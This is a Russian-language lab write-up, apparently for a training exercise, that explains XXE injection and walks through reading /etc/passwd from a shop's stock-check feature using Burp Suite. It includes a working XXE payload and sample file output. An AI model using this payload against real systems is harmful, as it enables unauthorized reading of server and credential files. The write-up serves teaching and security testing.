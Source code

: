Использование XXE для извлечения файлов
Чтобы выполнить атаку с использованием XXE-инъекции, которая извлекает произвольный файл из файловой системы сервера, вам необходимо изменить отправленный XML двумя способами:

Введите (или отредактируйте) DOCTYPEэлемент, определяющий внешнюю сущность, содержащую путь к файлу.
Отредактируйте значение данных в XML, возвращаемом в ответе приложения, чтобы использовать определенную внешнюю сущность.
Например, предположим, что приложение для совершения покупок проверяет уровень запасов товара, отправляя на сервер следующий XML-код:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
Приложение не обеспечивает особой защиты от атак XXE, поэтому вы можете воспользоваться уязвимостью XXE для извлечения /etc/passwdфайла, отправив следующую полезную нагрузку XXE:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
Эта полезная нагрузка XXE определяет внешнюю сущность &xxe;, значением которой является содержимое файла /etc/passwd, и использует сущность внутри productIdзначения. Это приводит к тому, что ответ приложения включает содержимое файла:

Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
Примечание
При реальных уязвимостях XXE в отправленном XML часто будет большое количество значений данных, любое из которых может быть использовано в ответе приложения. Для систематического тестирования на уязвимости XXE вам, как правило, нужно будет протестировать каждый узел данных в XML по отдельности, используя определенную вами сущность и проверяя, появляется ли она в ответе.

1. Нас встречает список товаров:

![image](https://github.com/user-attachments/assets/7732ce0b-262f-4416-aebe-a7af11b5d714)

---

2. Переходим на любой из них, включив прокси бурпа, нажимаем на кнопку "Проверить наличие на складе":

![image](https://github.com/user-attachments/assets/be6726cc-64f5-4093-b301-7923e3d88d9c)

---

3. В HTTP History полученный POST запрос перекидываем в Repeater, видим, что проверка наличия производится с помощью XML, это и будет нашим вектором атаки:

![image](https://github.com/user-attachments/assets/028c10b5-e477-45f5-8101-8a056ed72651)

---

4. Вставляем следующее определение внешней сущности между декларацией XML и stockCheck элементом: <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>, и в productId значение меняем на &xxe;, должно получиться вот так: 

![image](https://github.com/user-attachments/assets/22cbd669-befa-4e8b-9250-da047534f851)

---

5. Получаем вывод /etc/passwd: 

![image](https://github.com/user-attachments/assets/7c506f3a-d652-4bad-820c-2b61fa561bf5)
---
